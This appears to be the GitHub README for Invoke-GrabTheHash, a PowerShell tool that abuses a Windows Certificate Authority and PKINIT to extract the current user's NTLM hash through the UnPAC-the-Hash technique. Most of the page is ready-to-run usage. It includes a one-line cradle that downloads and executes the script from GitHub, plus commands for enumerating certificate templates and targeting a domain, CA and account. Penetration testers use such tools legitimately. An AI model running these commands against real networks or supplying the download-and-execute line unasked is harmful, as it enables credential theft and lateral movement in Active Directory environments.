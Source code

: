 # Invoke-GrabTheHash
Requests a certificate from a Windows Certificate Authority (CA) for the Current Session User's TGT, uses PKINIT to obtain a TGT for the same user, then performs the UnPAC-the-Hash technique to extract the user's NTLM hash

### Run as follows
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-GrabTheHash/main/Invoke-GrabTheHash.ps1')
```
```
Invoke-GrabTheHash
```

### Specify a target Domain
```
Invoke-GrabTheHash -Domain <domain.name>
```

### Enumerate for Certificate Templates
```
Invoke-GrabTheHash -CertTemplates
```

### Specify a Certificate Template to use
By default, the "User" template is used to request a certificate
```
Invoke-GrabTheHash -TemplateName <template_name>
```

### Specify the CA Name
```
Invoke-GrabTheHash -CAName "CA01.domain.local\domain-CA01-CA"
```

### Specify the User Account Name
This must correspond to the TGT Client Name in your current session
```
Invoke-GrabTheHash -CN <samaccountname>
```

### Example Output
![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/fcb77053-ebf9-4132-bbaf-8a576a6d08b1)
